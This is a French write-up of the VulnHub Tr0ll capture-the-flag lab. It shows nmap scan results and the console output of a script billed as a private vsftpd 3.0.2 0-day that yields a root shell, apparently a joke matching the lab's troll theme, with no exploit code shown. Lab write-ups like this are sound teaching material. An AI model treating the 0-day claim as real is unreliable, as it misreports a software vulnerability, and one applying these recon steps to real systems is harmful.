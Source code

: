```yaml
---
title: "Solution du CTF Tr0ll de VulnHub"
tags: [CTF,VulnHub]
---
```


Introduction
------------

[Le challenge tr0ll](http://vulnhub.com/entry/tr0ll-1,100/) créé par *Maleus* est le dernier CTF ajouté sur *VulnHub* au moment de ces lignes.  

L'auteur prévient qu'il y aura beaucoup de trolls (c'est à dire des fausses pistes) donc le challenge risque d'être agaçant.  

Toutefois, il est aussi indiqué que le challenge se destine aux débutants.  

Mais trop de guessing peu suffire à vous pourrir la vie comme sur le CTF *Flick* que j'ai terminé mais qui ne mérite pas un writeup au vu du temps perdu dessus (d'autres ont déjà écrit des writeups plus intéressants).  

Tour rapide
-----------

```plain
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10 00:43 lol.pcap [NSE: writeable]
22/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|_  256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-title: Site doesn't have a title (text/html).
```

Sur le serveur web, à la racine, on trouve seulement une image avec un trollface. Idem pour */secret*.  

dirb ne trouve rien de plus dans ces dossiers, inutile d'aller plus loin.  

Don't feed the troll
--------------------

Je décide de sortie l'artillerie lourde :  

```plain
$ python /work/vrd/exploits/ftp/devloop-vsftpd-3.0.2-l33t-0day-exploit.py
[i] devloop !PRIVATE! 0day exploit for VSFTPd 3.0.2 (Ubuntu)
[*] Connection as anonymous successful !
[*] Fetching leaked memory, please wait (may take 1 or 2 minutes)...
[*] Address of .text section found !
[*] pop-pop-ret should be at 0x0856BF
[*] Sending shellcode as file name...
[*] Jumping to payload, wait for your shell :)
root@troll:~# id
uid=0(root) gid=0(root) groups=0(root)
```
